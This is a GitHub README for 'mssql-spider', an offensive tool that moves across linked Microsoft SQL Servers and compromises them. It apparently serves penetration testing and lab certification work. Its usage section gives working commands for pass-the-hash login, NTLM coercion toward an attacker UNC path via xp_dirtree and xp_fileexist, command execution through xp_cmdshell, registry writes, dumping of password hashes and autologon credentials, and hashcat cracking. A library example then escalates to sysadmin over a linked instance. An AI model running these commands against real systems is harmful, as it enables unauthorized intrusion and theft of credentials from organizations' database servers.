 # mssql-spider

![Screenshot](./assets/demo.png)

An improved [impacket-mssqclient](https://github.com/fortra/impacket/blob/master/examples/mssqlclient.py) that exploits impersonation and linked instances to discover and compromise as many Microsoft SQL Servers as it can reach.
For example, it can solve the OSEP Lab Challenge 2 automatically.

Big thanks to the developers of fortra/impacket#1397, [SQLRecon](https://github.com/skahwah/SQLRecon) and [PowerUpSQL](https://github.com/NetSPI/PowerUpSQL) on which this project is based.

# Setup

a) With [pipx](https://github.com/pypa/pipx).

~~~ bash
pipx install git+https://github.com/dadevel/mssql-spider.git@main
~~~

b) With [pip](https://github.com/pypa/pip).

~~~ bash
pip install --user git+https://github.com/dadevel/mssql-spider.git@main
~~~

# Usage

Authenticate as local user and enumerate recursively.

~~~ bash
mssql-spider -u jdoe -p passw0rd db01.corp.local
~~~

Authenticate as domain user via *Pass the Hash* and coerce NTLM authentication from all reachable hosts trough `xp_dirtree`.
This does not require privileged access.

~~~ bash
mssql-spider -d corp.local -u jdoe -H :b9f917853e3dbf6e6831ecce60725930 --coerce-dirtree '\\attacker.corp.local\test' ./mssql-servers.txt
~~~

Alternatively coerce NTLM with `xp_fileexist`.

~~~ bash
mssql-spider -d corp.local -u jdoe -H :b9f917853e3dbf6e6831ecce60725930 --coerce-fileexist '\\attacker.corp.local\test\test.txt' ./mssql-servers.txt
~~~

Authenticate via Kerberos and execute a command trough `xp_cmdshell` on all hosts where you can obtain sysadmin privileges.

~~~ bash
export KRB5CCNAME=./dbsvc.ccache
mssql-spider -k -n -x 'whoami /groups' db01.corp.local:50123 db02.corp.com:1433
~~~

Detailed help:

~~~
positional arguments:
  HOST[:PORT]|FILE

options:
  -h, --help                                              show this help message and exit
  --depth UINT                                            default: 10
  --threads UINT                                          default: based on CPU cores
  --timeout SECONDS                                       default: 5
  --debug                                                 write verbose log to stderr

authentication:
  -d DOMAIN, --domain DOMAIN                              implies -w
  -u USERNAME, --user USERNAME
  -p PASSWORD, --password PASSWORD
  -n, --no-pass                                           disable password prompt, default: false
  -H [LMHASH]:NTHASH, --hashes [LMHASH]:NTHASH            authenticate via pass the hash
  -a HEXKEY, --aes-key HEXKEY                             authenticate with Kerberos key in hex, implies -k
  -w, --windows-auth                                      use windows instead of local authentication, default: false
  -k, --kerberos                                          authenticate via Kerberos, implies -w, default: false
  -K ADDRESS, --dc-ip ADDRESS                             FQDN or IP address of a domain controller, default: value of -d
  -D NAME, --database NAME

enumeration:
  -q SQL, --query SQL                                     execute SQL statement, unprivileged, repeatable
  --sysinfo                                               retrieve database and OS version, unprivileged

coercion:
  -c UNCPATH, --coerce-dirtree UNCPATH                    coerce NTLM trough xp_dirtree(), unprivileged
  --coerce-fileexist UNCPATH                              coerce NTLM trough xp_fileexist(), unprivileged
  --coerce-openrowset UNCPATH                             coerce NTLM trough openrowset(), privileged

filesystem:
  --file-read REMOTE                                      read file trough openrowset(), privileged
  --file-write LOCAL REMOTE                               write file trough OLE automation, privileged

execution:
  -x COMMAND, --exec-cmdshell COMMAND                     execute command trough xp_cmdshell(), privileged
  --exec-ole COMMAND                                      execute blind command trough OLE automation, privileged
  --exec-job sql|cmd|powershell|jscript|vbscript COMMAND  execute blind command trough agent job, privileged, experimental!

registry:
  --reg-read HIVE KEY NAME                                read registry value, privileged, experimental!
  --reg-write HIVE KEY NAME TYPE VALUE                    write registry value, privileged, experimental!
  --reg-delete HIVE KEY NAME                              delete registry value, privileged, experimental!

credentials:
  --dump-hashes                                           extract hashes of database logins, privileged
  --dump-jobs                                             extract source code of agent jobs, privileged
  --dump-autologon                                        extract autologon credentials from registry, privileged
~~~

Dumped database password hashes can be cracked with [hashcat](https://github.com/hashcat/hashcat).

~~~ bash
hashcat -O -w 3 -a 0 -m 1731 --username ./hashes.txt ./rockyou.txt
~~~

## Usage as library

~~~
❯ python3
>>> from mssql_spider.client import MSSQLClient
>>> client = MSSQLClient.connect('192.168.118.140', 1433)
>>> client.login(username='webapp11', password='redacted', windows_auth=False)
>>> client.enum_links()
{'SQL11\\SQLEXPRESS': {'local_login': 'NULL', 'remote_login': 'NULL'}, 'SQL27': {'local_login': 'webapp11', 'remote_login': 'webappGroup'}, 'SQL53': {'local_login': 'webapp11', 'remote_login': 'testAccount'}}
>>> linked_instance = client.use_rpc_link('SQL27')
>>> linked_instance.whoami()
{'host': 'sql27', 'login': 'sa', 'user': 'dbo', 'roles': {'db_denydatareader', 'dbcreator', 'db_datareader', 'public', 'db_denydatawriter', 'db_accessadmin', 'setupadmin', 'serveradmin', 'db_backupoperator', 'diskadmin', 'bulkadmin', 'db_owner', 'securityadmin', 'sysadmin', 'db_datawriter', 'processadmin', 'db_ddladmin', 'db_securityadmin'}}
~~~
